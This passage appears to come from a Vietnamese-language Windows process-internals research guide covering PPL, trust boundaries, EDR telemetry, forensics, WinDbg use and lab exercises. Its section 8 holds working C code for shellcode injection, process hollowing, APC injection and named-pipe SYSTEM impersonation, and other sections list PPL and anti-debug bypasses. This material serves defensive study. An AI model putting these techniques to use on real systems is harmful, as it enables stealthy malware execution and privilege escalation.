DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_DEP_ENABLE |
                 PROCESS_CREATION_MITIGATION_POLICY_ASLR_ENABLE |
                 PROCESS_CREATION_MITIGATION_POLICY_CFG_ENABLE;

UpdateProcThreadAttribute(si.lpAttributeList,
    0, PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY,
    &policy, sizeof(policy), NULL, NULL);

CreateProcess(..., CREATE_SUSPENDED | EXTENDED_STARTUPINFO_PRESENT, ..., &si.StartupInfo, &pi);
```

**WinDbg:**

```windbg
dt nt!_EPROCESS <addr> MitigationFlags
dt nt!_EPROCESS <addr> MitigationFlags2
```

### 5.4 Protected Process Light (PPL)

**_PS_PROTECTION structure:**

```c
struct _PS_PROTECTION {
    union {
        UCHAR Level;
        struct {
            UCHAR Type   : 3;   // 0=None, 1=ProtectedLight, 2=Protected
            UCHAR Audit  : 1;   // audit mode
            UCHAR Signer : 4;   // 0-7, xem bảng dưới
        };
    };
};
```

**Signer levels:**

| Signer | Giá trị | Ví dụ process |
|--------|---------|---------------|
| None | 0 | Process thông thường |
| Authenticode | 1 | DRM processes |
| CodeGen | 2 | .NET native image generation |
| Antimalware | 3 | EDR/AV engines (MsMpEng.exe, csagent.exe) |
| Lsa | 4 | lsass.exe (RunAsPPL=1 registry key) |
| Windows | 5 | Một số Windows system processes |
| WinTcb | 6 | csrss.exe, smss.exe, wininit.exe |
| WinSystem | 7 | System process (PID 4) |

**Registry keys để enable PPL:**

```
; lsass.exe chạy như PPL (Lsa signer, level 4):
HKLM\SYSTEM\CurrentControlSet\Control\Lsa
  RunAsPPL = 1   → PPL (Type=1, Signer=4)
  RunAsPPL = 2   → PP  (Type=2, Signer=4)  [Win10 1507+]
```

**WinDbg:**

```windbg
!process 0 0 lsass.exe
dt nt!_EPROCESS <addr> Protection
; output:
;    Type   : 0y001  (= 1 = ProtectedLight)
;    Audit  : 0y0
;    Signer : 0y0100 (= 4 = Lsa)
```

**PPL enforcement:** Khi caller gọi `OpenProcess` trên PPL process, kernel so sánh Protection level của caller vs target. Caller phải có signer level >= target's signer level để được grant access. Kernel mode visibility gap: write directly vào `EPROCESS.Protection` field để hạ cấp protection.

---

## 6. Trust Boundaries

### 6.1 Process / address space boundary

**Boundary:** Mỗi process có page table riêng (CR3). CPU phần cứng enforce — code trong process A không thể trực tiếp read/write memory của process B.

**Vượt qua:** `NtReadVirtualMemory` / `NtWriteVirtualMemory` — syscalls kernel thực hiện cross-process copy với `MmCopyVirtualMemory`. Caller cần handle với đủ access rights.

**Visibility gap:** Shared memory (section objects), kernel driver patch trực tiếp, DMA attack (qua Thunderbolt/PCIe).

### 6.2 Handle access boundary

**Boundary:** Để access kernel object của process khác, cần open handle với access mask phù hợp — kernel enforce qua `ObReferenceObjectByHandle`.

**Attack vectors:**
- `OpenProcess(PROCESS_VM_READ | PROCESS_VM_WRITE, ...)` — cần privilege hoặc integrity level cao hơn target
- `DuplicateHandle` từ handle table của process có `PROCESS_DUP_HANDLE` access
- Kernel driver — trực tiếp dereference EPROCESS pointer, visibility gap handle check

**EDR monitoring:** `ObRegisterCallbacks` — EDR đăng ký callback khi có attempt open process handle, có thể strip access mask (e.g., block `PROCESS_VM_WRITE`).

### 6.3 Token / integrity level boundary

**Boundary:** Process ở Integrity Level thấp hơn không thể write object của IL cao hơn. Mandatory Integrity Control (MIC) enforce điều này.

| Integrity Level | SID | Ví dụ |
|----------------|-----|-------|
| Untrusted | S-1-16-0 | — |
| Low | S-1-16-4096 (0x1000) | IE Protected Mode, sandboxed renderer |
| Medium | S-1-16-8192 (0x2000) | User processes |
| High | S-1-16-12288 (0x3000) | Elevated admin (UAC) |
| System | S-1-16-16384 (0x4000) | Services, SYSTEM |
| Protected | S-1-16-20480 (0x5000) | PPL processes |

**Visibility gap:** Token impersonation (cần `SeImpersonatePrivilege`), UAC visibility gap (nhiều technique: DLL hijack trong auto-elevate COM server, fodhelper, eventvwr, v.v.).

### 6.4 Job boundary

**Boundary:** Process trong job bị giới hạn theo job policy. Process không thể tự remove mình khỏi job.

**Escape vectors:**
- Spawn process ngoài job (nếu `NoChildProcessCreation` không set)
- Execution outside the job boundary via another process context
- Exploit job limit misconfiguration (e.g., `BreakAwayOK` flag trên parent)

### 6.5 Mitigation policy boundary

**Boundary:** Mitigation flags trong EPROCESS restrict capabilities của process đó.

**Visibility gap:**
- ROP/JOP để visibility gap DEP
- Info leak để defeat ASLR
- CFG visibility gap qua writable function pointer không trong CFG bitmap
- ACG visibility gap: inject vào process không có ACG, rồi APC / RPC back

### 6.6 PPL boundary

**Boundary:** PPL process không thể bị opened với `PROCESS_VM_READ / PROCESS_VM_WRITE / PROCESS_DUP_HANDLE` bởi non-PPL caller.

**Visibility gap:**
- **Kernel driver** — load `.sys` driver, write trực tiếp vào `EPROCESS.Protection`
- **PPLdump** (itm4n) — khai thác Windows Error Reporting (WER) COM interface, không cần driver
- **Signed malicious driver** — BYOVD (Bring Your Own Vulnerable Driver)
- **Signer level downgrade** — hạ từ Lsa (4) xuống None (0) → OpenProcess thành công

> **Researcher note:** Sau Win10 2004, Microsoft enable **Secure Launch** và **Credential Guard** — token và LSAISO isolation chuyển lên VTL1 (Secure World). Ngay cả kernel compromise (VTL0) không thể access credentials nếu VBS active. Đây là lý do BYOVD attacks ngày càng target HVCI visibility gap thay vì chỉ PPL visibility gap.

---

## 7. Attack Surface Map

| # | Attack Surface | Method | Required Privilege | EDR Visibility |
|---|----------------|--------|-------------------|----------------|
| 1 | OpenProcess với PROCESS_ALL_ACCESS | SeDebugPrivilege | Admin | ObRegisterCallbacks |
| 2 | Cross-process memory allocation/write APIs | PROCESS_VM_WRITE + PROCESS_VM_OPERATION | Admin/SeDebug | Kernel callbacks + Sysmon 10 |
| 3 | Remote thread creation API | PROCESS_CREATE_THREAD | Admin/SeDebug | PsSetCreateThreadNotify + Sysmon 8 |
| 4 | NtQueueApcThread | PROCESS_VM_WRITE + thread handle | Admin | Kernel APC monitoring |
| 5 | SetWindowsHookEx abuse class | Low (same session) | Medium | ETW |
| 6 | DLL hijack (search order) | Write permission trong DLL path | Varies | Image load notify |
| 7 | Process hollowing | PROCESS_ALL_ACCESS | Admin | Image load mismatch detection |
| 8 | PPID spoof | PROC_THREAD_ATTRIBUTE_PARENT_PROCESS | Create process | PPID vs parent lifetime check |
| 9 | Cmdline spoof (post-init PEB write) | PROCESS_VM_WRITE | Admin | Capture at notify callback |
| 10 | Token abuse (OpenProcessToken) | PROCESS_QUERY_INFORMATION | Admin/SeDebug | Token access events |
| 11 | Token impersonation | SeImpersonatePrivilege | Service account | Thread token monitoring |
| 12 | Handle duplication | PROCESS_DUP_HANDLE trên holder | Admin | ObRegisterCallbacks |
| 13 | DKOM (unlink EPROCESS) | Kernel driver | Ring 0 | Memory forensics only |
| 14 | Job escape via BreakAwayOK | Create process with flag | Medium | Job policy audit |
| 15 | Shared section inject | CreateFileMapping + MapViewOfFile | Low | Shared memory monitoring |
| 16 | APC delivery abuse class | Thread handle | Admin | APC delivery monitoring |
| 17 | Early-process tampering class | Create own process | Low | Suspend + write pattern |
| 18 | Atom bombing | GlobalAddAtom + NtQueueApcThread | Low (same session) | APC monitoring |

---

## 8. Abuse Techniques — Code Examples

### 8.1 Process Injection — Classic (VirtualAllocEx + CreateRemoteThread)

**Concept:** Inject shellcode vào process khác bằng cách cấp phát memory trong target, write shellcode, tạo remote thread để thực thi.

```c
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

// msfvenom -p windows/x64/exec CMD=calc.exe -f c -b “\x00”
unsigned char shellcode[] =
    “\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18”
    “\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49”
    /* ... full shellcode ... */;

BOOL InjectIntoProcess(DWORD targetPID) {
    printf(“[*] Injecting into PID %lu\n”, targetPID);

    HANDLE hProcess = OpenProcess(
        PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD,
        FALSE, targetPID);
    if (!hProcess) {
        printf(“[-] OpenProcess failed: %lu\n”, GetLastError());
        return FALSE;
    }

    // Two-step alloc: RW → RX (ít noisy hơn RWX)
    LPVOID mem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    WriteProcessMemory(hProcess, mem, shellcode, sizeof(shellcode), NULL);

    DWORD oldProtect;
    VirtualProtectEx(hProcess, mem, sizeof(shellcode),
        PAGE_EXECUTE_READ, &oldProtect);

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
        (LPTHREAD_START_ROUTINE)mem, NULL, 0, NULL);

    printf(“[+] Remote thread TID: %lu\n”, GetThreadId(hThread));
    WaitForSingleObject(hThread, 5000);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return TRUE;
}
// Compile: cl /nologo inject.c /link /out:inject.exe
```

**Detection:**
- Sysmon Event 10: source process → target process với `PROCESS_VM_WRITE` rights
- Sysmon Event 8 (CreateRemoteThread): start address = private memory region
- ETW-TI `ALLOCVM` + `PROTECTVM` + `WRITEVM` sequence trong target process

---

### 8.2 Process Hollowing

**Concept:** Tạo process ở Suspended state, unmap image gốc, inject payload PE, patch entry point, resume. Process trông hợp lệ (image path = svchost.exe) nhưng chạy payload.

```c
#include <windows.h>
#include <winternl.h>
#include <stdio.h>

typedef NTSTATUS (NTAPI* NtUnmapViewOfSection_t)(HANDLE, PVOID);

BOOL ProcessHollow(const wchar_t* hostExe, const wchar_t* payloadExe) {
    // 1. Đọc payload từ disk vào buffer
    HANDLE hFile = CreateFileW(payloadExe, GENERIC_READ, FILE_SHARE_READ,
        NULL, OPEN_EXISTING, 0, NULL);
    DWORD payloadSize = GetFileSize(hFile, NULL);
    BYTE* payload = (BYTE*)VirtualAlloc(NULL, payloadSize, MEM_COMMIT, PAGE_READWRITE);
    DWORD bytesRead = 0;
    ReadFile(hFile, payload, payloadSize, &bytesRead, NULL);
    CloseHandle(hFile);

    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)payload;
    PIMAGE_NT_HEADERS nt  = (PIMAGE_NT_HEADERS)(payload + dos->e_lfanew);
    DWORD_PTR preferredBase = nt->OptionalHeader.ImageBase;
    DWORD    imageSize      = nt->OptionalHeader.SizeOfImage;

    // 2. Spawn host process suspended
    STARTUPINFOW si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    if (!CreateProcessW(hostExe, NULL, NULL, NULL, FALSE,
            CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        printf(“[-] CreateProcess failed: %lu\n”, GetLastError());
        return FALSE;
    }
    printf(“[+] Created suspended PID %lu (host: %ls)\n”, pi.dwProcessId, hostExe);

    // 3. Lấy PEB address qua thread context (x64: Rdx = PEB khi process mới tạo)
    CONTEXT ctx = { CONTEXT_FULL };
    GetThreadContext(pi.hThread, &ctx);
    // PEB.ImageBaseAddress ở offset 0x10 (x64)
    PVOID pebImageBase = NULL;
    ReadProcessMemory(pi.hProcess, (PBYTE)ctx.Rdx + 0x10,
        &pebImageBase, sizeof(pebImageBase), NULL);
    printf(“[*] Host image base: %p\n”, pebImageBase);

    // 4. Unmap host image
    NtUnmapViewOfSection_t NtUnmap = (NtUnmapViewOfSection_t)
        GetProcAddress(GetModuleHandleA(“ntdll.dll”), “NtUnmapViewOfSection”);
    NtUnmap(pi.hProcess, pebImageBase);

    // 5. Allocate ở preferred base của payload
    PVOID remoteBase = VirtualAllocEx(pi.hProcess, (PVOID)preferredBase, imageSize,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!remoteBase) {
        // Preferred base taken, alloc anywhere và apply relocations (simplified: skip here)
        remoteBase = VirtualAllocEx(pi.hProcess, NULL, imageSize,
            MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    }
    printf(“[*] Remote alloc at: %p\n”, remoteBase);

    // 6. Write PE headers
    WriteProcessMemory(pi.hProcess, remoteBase,
        payload, nt->OptionalHeader.SizeOfHeaders, NULL);

    // 7. Write each section
    PIMAGE_SECTION_HEADER sec = IMAGE_FIRST_SECTION(nt);
    for (WORD i = 0; i < nt->FileHeader.NumberOfSections; i++, sec++) {
        WriteProcessMemory(pi.hProcess,
            (PBYTE)remoteBase + sec->VirtualAddress,
            payload + sec->PointerToRawData,
            sec->SizeOfRawData, NULL);
    }

    // 8. Patch PEB.ImageBaseAddress → new base
    WriteProcessMemory(pi.hProcess, (PBYTE)ctx.Rdx + 0x10,
        &remoteBase, sizeof(remoteBase), NULL);

    // 9. Patch RCX (entry point) in thread context
    ctx.Rcx = (DWORD64)remoteBase + nt->OptionalHeader.AddressOfEntryPoint;
    SetThreadContext(pi.hThread, &ctx);
    printf(“[+] Entry point set to: %llx\n”, ctx.Rcx);

    // 10. Resume — payload runs
    ResumeThread(pi.hThread);

    VirtualFree(payload, 0, MEM_RELEASE);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return TRUE;
}

// Usage: ProcessHollow(L”C:\\Windows\\System32\\svchost.exe”, L”C:\\payload.exe”);
// Compile: cl /nologo hollow.c /link /out:hollow.exe
```

**Detection:**
- ETW-TI `UNMAPVIEW` trên process vừa được tạo (suspended) → unusual
- ETW-TI `ALLOCVM` + `WRITEVM` sequence vào suspended process
- Memory forensics: `!vad` — VAD node type là MEM_IMAGE (svchost.exe) nhưng content là payload PE
- Volatility `cmdline` và `dlllist` có thể show mismatch với actual image content
- `SetThreadContext` captured bởi Sysmon Event 8 trên một số config

---

### 8.3 APC Injection (Early Bird)

**Concept:** Queue một Asynchronous Procedure Call vào thread của process. “Early Bird” = inject APC vào main thread của suspended process → APC thực thi khi thread enters alertable state (ngay sau resume).

```c
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

// Early Bird APC — inject vào suspended process trước khi resume
BOOL EarlyBirdAPC(const wchar_t* targetExe, BYTE* shellcode, SIZE_T shellcodeSize) {
    // Tạo target process ở suspended state
    STARTUPINFOW si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    if (!CreateProcessW(targetExe, NULL, NULL, NULL, FALSE,
            CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        printf(“[-] CreateProcess failed: %lu\n”, GetLastError());
        return FALSE;
    }
    printf(“[+] Suspended PID: %lu, TID: %lu\n”, pi.dwProcessId, pi.dwThreadId);

    // Alloc shellcode trong target
    PVOID remoteMem = VirtualAllocEx(pi.hProcess, NULL, shellcodeSize,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, remoteMem, shellcode, shellcodeSize, NULL);
    printf(“[*] Shellcode at: %p\n”, remoteMem);

    // Queue APC vào main thread — fires khi thread enters alertable wait
    // NtTestAlert() hoặc SleepEx(0, TRUE) triggers APC execution
    QueueUserAPC((PAPCFUNC)remoteMem, pi.hThread, 0);
    printf(“[+] APC queued\n”);

    // Resume — main thread enters alertable state → shellcode fires
    ResumeThread(pi.hThread);

    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return TRUE;
}

// Inject APC vào existing thread của running process
BOOL APCInjectRunning(DWORD targetPID, BYTE* shellcode, SIZE_T shellcodeSize) {
    HANDLE hProcess = OpenProcess(
        PROCESS_VM_WRITE | PROCESS_VM_OPERATION, FALSE, targetPID);

    PVOID remoteMem = VirtualAllocEx(hProcess, NULL, shellcodeSize,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, remoteMem, shellcode, shellcodeSize, NULL);

    // Queue APC vào tất cả threads của target (spray — ít nhất một sẽ vào alertable state)
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    THREADENTRY32 te = { sizeof(te) };
    int count = 0;
    if (Thread32First(snap, &te)) {
        do {
            if (te.th32OwnerProcessID == targetPID) {
                HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, te.th32ThreadID);
                if (hThread) {
                    QueueUserAPC((PAPCFUNC)remoteMem, hThread, 0);
                    CloseHandle(hThread);
                    count++;
                }
            }
        } while (Thread32Next(snap, &te));
    }
    CloseHandle(snap);
    CloseHandle(hProcess);
    printf(“[+] APC queued to %d threads\n”, count);
    return TRUE;
}
// Compile: cl /nologo apc_inject.c /link /out:apc.exe
```

**Detection:**
- ETW-TI `QUEUEUSERAPC`: capture QueueUserAPC calls — target process, APC routine address
- Thread start address trong private memory region khi APC fires
- Sysmon Event 8 được một số EDR trigger cho APC injection (tùy implementation)
- `ObRegisterCallbacks`: OpenProcess với VM_WRITE rights để alloc shellcode

---

### 8.4 Token Impersonation — Named Pipe Trick

**Concept:** Tạo named pipe server, trick một SYSTEM process vào connect → `ImpersonateNamedPipeClient()` lấy token của SYSTEM process → escalate.

```c
#include <windows.h>
#include <stdio.h>
#include <aclapi.h>

// Technique: Named Pipe Impersonation để leo thang SYSTEM
// Thường dùng kết hợp với một service hoặc scheduled task trigger connect đến pipe
BOOL PipeImpersonation() {
    // 1. Tạo named pipe với NULL DACL (everyone can connect)
    SECURITY_DESCRIPTOR sd;
    InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
    SetSecurityDescriptorDacl(&sd, TRUE, NULL, FALSE); // NULL DACL = everyone

    SECURITY_ATTRIBUTES sa = { sizeof(sa), &sd, FALSE };

    HANDLE hPipe = CreateNamedPipeW(
        L”\\\\.\\pipe\\legit_pipe”,   // pipe name
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
        1,        // max instances
        4096, 4096, 0, &sa);

    if (hPipe == INVALID_HANDLE_VALUE) {
        printf(“[-] CreateNamedPipe failed: %lu\n”, GetLastError());
        return FALSE;
    }
    printf(“[*] Pipe created: \\\\.\\pipe\\legit_pipe\n”);
    printf(“[*] Waiting for SYSTEM client to connect...\n”);

    // 2. Chờ client (SYSTEM process) kết nối
    ConnectNamedPipe(hPipe, NULL);
    printf(“[+] Client connected!\n”);

    // 3. Impersonate client — lấy security context của client
    if (!ImpersonateNamedPipeClient(hPipe)) {
        printf(“[-] ImpersonateNamedPipeClient failed: %lu\n”, GetLastError());
        CloseHandle(hPipe);
        return FALSE;
    }

    // 4. Verify identity sau impersonation
    HANDLE hToken;
    OpenThreadToken(GetCurrentThread(), TOKEN_QUERY, FALSE, &hToken);

    DWORD infoLen = 0;
    GetTokenInformation(hToken, TokenUser, NULL, 0, &infoLen);
    PTOKEN_USER pUser = (PTOKEN_USER)LocalAlloc(LPTR, infoLen);
    GetTokenInformation(hToken, TokenUser, pUser, infoLen, &infoLen);

    char userName[256], domainName[256];
    DWORD userLen = 256, domainLen = 256;
    SID_NAME_USE sidType;
    LookupAccountSidA(NULL, pUser->User.Sid, userName, &userLen, domainName, &domainLen, &sidType);
    printf(“[+] Impersonating: %s\\%s\n”, domainName, userName);

    // 5. Nếu là SYSTEM → spawn SYSTEM shell với impersonation token
    STARTUPINFOW si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    // CreateProcessWithTokenW cần primary token — convert impersonation → primary
    HANDLE hPrimary;
    DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL,
        SecurityImpersonation, TokenPrimary, &hPrimary);
    CreateProcessWithTokenW(hPrimary, LOGON_WITH_PROFILE,
        L”C:\\Windows\\System32\\cmd.exe”,
        NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

    LocalFree(pUser);
    CloseHandle(hToken);
    CloseHandle(hPrimary);
    CloseHandle(hPipe);
    return TRUE;
}
// Compile: cl /nologo pipe_impersonate.c advapi32.lib /link /out:pipe_imp.exe
```

**Detection:**
- Sysmon Event 17/18 (PipeCreated/PipeConnected): pipe tạo bởi non-system process với SYSTEM client connect
- Security Event 4648: Logon attempt with explicit credentials
- `ImpersonateNamedPipeClient` → thread token change → Security Event 4616 (token assignment)

---

## 9. Defender / EDR Telemetry


> Telemetry interpretation note:
> ETW/Event Log/WMI/EDR are provider-generated or sensor-generated views, not universal ground truth. Telemetry must be interpreted with source layer, configuration, provider state, collection policy, and retention. Absence of an event is not proof of absence. High-signal anomaly still requires context and correlation.

### 9.1 User-mode hooks (ntdll)

| API được hook | Thông tin capture được | Visibility gap / source-layer limit |
|--------------|------------------------|---------------------|
| `NtCreateUserProcess` | Image path, cmdline, parent PID, flags | Lower-layer/native call path; ntdll remap/tamper class |
| `NtAllocateVirtualMemory` | Size, protection flags | Lower-layer/native call path |
| `NtWriteVirtualMemory` | Target PID, address, size | Lower-layer/native call path |
| `NtCreateThreadEx` | Target PID, start address, flags | Lower-layer/native call path |
| `NtOpenProcess` | Target PID, access mask | Lower-layer/native call path |
| `NtQueueApcThread` | Thread handle, APC routine | Lower-layer/native call path |
| `NtSetContextThread` | Thread handle, new context | Lower-layer/native call path |

> **Researcher note:** User-mode hooks là lớp telemetry yếu nhất — toàn bộ có thể miss lower-layer/native call path. Kernel callbacks không phụ thuộc vào lower-layer/native call path (chúng chạy trong kernel, không phụ thuộc vào ntdll).

### 9.2 Kernel callbacks

| Callback API | Khi nào fire | Thông tin capture được | Source-layer limit |
|-------------|-------------|------------------------|------------|
| `PsSetCreateProcessNotifyRoutineEx` | Process create/exit | Image path, PPID, cmdline (qua PS_CREATE_NOTIFY_INFO) | Không fire nếu DKOM fake process |
| `PsSetCreateThreadNotifyRoutine` | Thread create/exit | TID, PID | APC không fire này |
| `PsSetLoadImageNotifyRoutine` | PE image load (exe + DLL + .sys) | Image name, base address, process | Manual mapping research class không fire notify |
| `ObRegisterCallbacks` | Object handle open/dup | Object type, access mask, caller | Kernel-mode source-layer limit |
| `CmRegisterCallback` | Registry key/value read/write | Key path, value name, data | Kernel-mode source-layer limit |
| `FltRegisterFilter` | Filesystem I/O | File path, operation | Raw disk/source-layer limit |

**PsSetCreateProcessNotifyRoutineEx — PS_CREATE_NOTIFY_INFO:**

```c
typedef struct _PS_CREATE_NOTIFY_INFO {
    SIZE_T Size;
    union { ULONG Flags; struct { ULONG FileOpenNameAvailable : 1; ULONG IsSubsystemProcess : 1; ULONG Reserved : 30; }; };
    HANDLE ParentProcessId;
    CLIENT_ID CreatingThreadId;
    struct _FILE_OBJECT *FileObject;
    PCUNICODE_STRING ImageFileName;  // Full image path
    PCUNICODE_STRING CommandLine;    // Command line
    NTSTATUS CreationStatus;
} PS_CREATE_NOTIFY_INFO;
```

### 9.3 Event Log / ETW / Sysmon

| Event | Source | EventID | Thông tin |
|-------|--------|---------|-----------|
| Process create | Security.evtx | 4688 | PID, PPID, image path, cmdline (nếu audit enabled), token elevation |
| Process create | Sysmon | 1 | Full cmdline, hash, PPID, user, LogonGuid |
| Image load | Sysmon | 7 | DLL path, hash, signed status |
| Remote thread | Sysmon | 8 | Source/target PID, start address |
| Process access | Sysmon | 10 | Source PID, target PID, access mask |
| Driver load | Sysmon | 6 | Driver path, hash, signed status |
| Object access | Security.evtx | 4656/4663 | Object name, access mask, subject |
| Handle open | ETW-TI | — | Microsoft-Windows-Threat-Intelligence provider |

**ETW-TI (Threat Intelligence):**

```
Provider GUID: {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}
Events: KERNEL_THREATINT_TASK_ALLOCVM, KERNEL_THREATINT_TASK_MAPVIEW,
        KERNEL_THREATINT_TASK_PROTECTVM, KERNEL_THREATINT_TASK_QUEUEUSERAPC,
        KERNEL_THREATINT_TASK_SETTHREADCONTEXT
Requires: PPL (Antimalware signer level 3) hoặc kernel mode consumer
```

> **Researcher note:** ETW-TI là nguồn telemetry mạnh nhất ở user-mode layer nhưng **chỉ accessible bởi PPL process** (signer level Antimalware trở lên) hoặc kernel driver. Malware không thể consume ETW-TI để biết mình đang bị theo dõi — nhưng cũng không thể disable nó từ user mode.

### 9.4 Telemetry limits và visibility gap flow



---

## 10. Forensic Artifacts

### 10.1 Live memory

| Artifact | Cách tìm | Công cụ |
|----------|---------|---------|
| EPROCESS list | Walk `PsActiveProcessHead` linked list | Volatility `pslist`, WinDbg `!process 0 0` |
| Hidden processes (DKOM) | Pool tag scan — `PROC` tag | Volatility `psscan`, `pstree` |
| VAD anomalies | Walk VAD tree, flag RWX + no backing file | Volatility `malfind`, WinDbg `!vad` |
| Injected DLLs | Compare PEB.Ldr list vs kernel LDR list vs VAD | Volatility `ldrmodules` |
| Command line | EPROCESS → PEB → RTL_USER_PROCESS_PARAMETERS | Volatility `cmdline` |
| Environment block | EPROCESS → PEB → Environment | Volatility `envars` |
| Open handles | Walk HANDLE_TABLE | Volatility `handles` |
| Access tokens | EPROCESS.Token → _TOKEN | Volatility `tokens`, `privs` |
| Job objects | EPROCESS.Job → _EJOB | Manual WinDbg |

**Volatility commands:**

```bash
vol -f memory.raw windows.pslist          # active process list (via EPROCESS links)
vol -f memory.raw windows.psscan          # pool scan (find DKOM-hidden)
vol -f memory.raw windows.malfind         # RWX + no backing file
vol -f memory.raw windows.ldrmodules      # DLL discrepancy (PEB vs kernel vs VAD)
vol -f memory.raw windows.cmdline         # command lines
vol -f memory.raw windows.handles --pid 1234  # handles of specific process
vol -f memory.raw windows.dlllist --pid 1234  # loaded DLLs
```

### 10.2 Disk artifacts

| Artifact | Path | Thông tin |
|----------|------|-----------|
| **Prefetch** | `%WinDir%\Prefetch\*.pf` | Executable name, run count, last run time, referenced DLLs |
| **AmCache** | `%WinDir%\AppCompat\Programs\AmCache.hve` | Full path, hash, last modification time |
| **ShimCache** | `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache` | Path, size, last modification time |
| **SRUM** | `%WinDir%\System32\sru\SRUDB.dat` | Per-process network usage, CPU time |
| **UserAssist** | `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist` | GUI launch count, last run |
| **LNK files** | `%AppData%\Microsoft\Windows\Recent\` | Target path, timestamps |
| **Jump Lists** | `%AppData%\Microsoft\Windows\Recent\AutomaticDestinations\` | Application usage history |
| **Event logs** | `%WinDir%\System32\winevt\Logs\` | 4688, Sysmon 1, 7, 8, 10 |

### 10.3 Network forensics kết hợp

- **SRUM** (`SRU\{973F5D5C-1D90-4944-BE8E-24B94231A174}`) lưu per-process network bytes sent/received — detect beaconing bằng process tên hợp lệ nhưng traffic bất thường.
- **ETW network events** (Microsoft-Windows-TCPIP) correlate PID với connection — timeline reconstruction.

---

## 11. Debugging and Reversing Notes

### 11.1 Process Explorer (Sysinternals)

- **Double-click process** → Security tab → xem token SID, privileges (enabled/disabled), integrity level
- **DLL tab** → so sánh với PEB.Ldr list — hidden/manual mapping suspicion nếu DLL-like region nằm trong VAD nhưng không trong DLL list
- **Handles tab** → xem open handles (file, registry, process, semaphore)
- **Job tab** → xem job assignment và limits
- **Column: Protection** → xem PPL level
- **Verify option** → xem digital signature trên disk vs memory hash

### 11.2 Process Monitor (Procmon)

- Filter theo PID + operation để trace toàn bộ file / registry / network / process access
- **Process Tree** (Ctrl+T) → visualize parent-child relationship theo thời gian
- **"Process Create"** event → capture cmdline tại thời điểm tạo

### 11.3 VMMap (Sysinternals)

- Visualize toàn bộ virtual address space của process
- Phân biệt: Image (mapped PE), Mapped File, Private Data, Shareable, Stack, Heap
- Detect memory-tamper signal: Private + Executable region không có backing image

### 11.4 WinDbg — process debugging

```windbg
; Attach to process
windbg -p <pid>

; Kernel mode — list processes
!process 0 0

; Dump specific process
!process 0 15 lsass.exe    ; 0x15 = full detail (handles, threads, etc.)

; Switch context to process
.process /i <eprocess_addr>
g   ; continue until context switch
.reload /user   ; reload user symbols

; Examine PEB
!peb
dt ntdll!_PEB @$peb

; List loaded modules
lm    ; list modules
!dlls ; detailed DLL list with PEB.Ldr

; VAD tree
!vad <eprocess_addr>
!vad <eprocess_addr> 4   ; verbose with file names

; Handle table
!handle 0 7   ; all handles, verbose

; Thread list
!process <eprocess_addr> 4   ; thread info

; Read token
dt nt!_TOKEN @@(((nt!_EPROCESS*)<eprocess_addr>)->Token.Object & ~0xF)
```

### 11.5 x64dbg — user-mode reverse engineering

```
; PEB access
Chú ý: GS:[0x60] → PEB pointer (x64)
FS:[0x30] → PEB pointer (x86)

; Tìm PPID spoof
Breakpoint tại NtCreateUserProcess, kiểm tra attribute list argument
→ Check PROC_THREAD_ATTRIBUTE_PARENT_PROCESS attribute

; Anti-debug visibility gap
Set hardware breakpoint tại PEB+0x2 (BeingDebugged)
→ Patch byte từ 1 → 0 trước khi anti-debug check
```

---

## 12. Safe Local Labs


> Lab format note:
> Mỗi lab nên được đọc theo checklist: **Goal**, **Requirements**, **Steps**, **Expected observations**, **Research notes**, và **Cleanup**. Nếu một lab cũ chưa ghi đủ từng nhãn này, áp dụng checklist này trước khi chạy: dùng Windows VM/snapshot, ghi tool version/build, chỉ thao tác trên test artifact, dừng collector/debug setting sau lab, và xóa test files/keys/processes do lab tạo.

### Lab 1 — Khám phá EPROCESS structure

**Mục tiêu:** Đọc EPROCESS fields của notepad.exe trong kernel debugger.

**Setup:** Windows VM + KernelMode WinDbg (local kernel debug hoặc VM với serial pipe).

```windbg
; Tìm process
!process 0 0 notepad.exe
; Ghi lại EPROCESS address, ví dụ: ffff8001`12345678

; Đọc basic fields
dt nt!_EPROCESS ffff8001`12345678
dt nt!_EPROCESS ffff8001`12345678 UniqueProcessId
dt nt!_EPROCESS ffff8001`12345678 InheritedFromUniqueProcessId
dt nt!_EPROCESS ffff8001`12345678 ImageFileName
dt nt!_EPROCESS ffff8001`12345678 Token
dt nt!_EPROCESS ffff8001`12345678 Protection
dt nt!_EPROCESS ffff8001`12345678 MitigationFlags

